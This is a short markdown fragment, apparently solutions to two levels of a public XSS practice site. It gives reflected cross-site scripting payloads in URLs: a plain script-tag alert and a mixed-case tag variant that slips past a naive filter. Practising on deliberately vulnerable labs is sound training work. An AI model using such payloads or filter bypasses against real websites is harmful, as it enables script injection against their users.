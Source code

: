Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E)

